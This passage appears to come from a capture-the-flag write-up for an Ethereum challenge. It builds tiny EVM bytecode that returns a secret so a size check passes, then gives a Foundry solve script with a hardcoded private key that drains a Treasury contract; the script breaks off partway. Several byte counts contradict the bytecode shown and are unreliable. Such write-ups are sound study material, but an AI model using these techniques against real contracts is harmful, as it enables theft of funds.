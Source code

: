 4. **Combining the Bytecode**:
```
// Initialization code (12 bytes)
6014600c60003960146000f3

// Runtime code (8 bytes)
6a49276d5f4c3079616c3b2960005260206000f3

// Combined (20 bytes)
6014600c60003960146000f36a49276d5f4c3079616c3b2960005260206000f3
```

5. **How it Works**:
- When deployed:
  1. Initialization code runs first
  2. Returns exactly 20 bytes of code
  3. Runtime code is what remains after deployment
- When `spillSecret()` is called:
  1. Runtime code executes
  2. Pushes "I'm_L0yal;)" onto stack
  3. Stores it in memory
  4. Returns it as the secret

6. **Verifying the Size**:
```solidity
// In SecretChecker.sol
uint256 length;
assembly {
    length := extcodesize(_servant)
}
require(length <= 20, "HaHa! try again xD");
```
Our contract is exactly 20 bytes, satisfying this check.

7. **Verifying the Secret**:
```solidity
// In SecretChecker.sol
bytes32 encodedSecret = servant.spillSecret();
bytes32 secret = bytes32(abi.encodePacked("I'm_L0yal;)")) >> (24 * 7);
require(keccak256(abi.encodePacked(secret)) == keccak256(abi.encodePacked(encodedSecret)));
```
Our contract returns "I'm_L0yal;)" which, when shifted right by 24*7 bits, matches the required secret.


### Solution Script

{% note(clickable=true, header="SolveScript.s.sol") %}

```solidity
contract SolveScript is Script {
    Setup public set = Setup(payable(0x5a825D1C0B1cE08dAd551a73a180785598FD22eE));
    SecretChecker public secretChecker;
    Treasury public treasury;

    function setUp() public {}

    function run() public {
        vm.startBroadcast(0x0abccce2d992649ac814a88542efa920523c780b101babc97ff79651a4652ff1);
        secretChecker = set.secretChecker();
        treasury = set.treasury();
        AttackDeployer attack = new AttackDeployer();
        address servant = attack.exploit();
        treasury.BecomeServant(address(attack));
        treasury.withdraw();

        secretChecker.IKnowTheSecret(servant);
```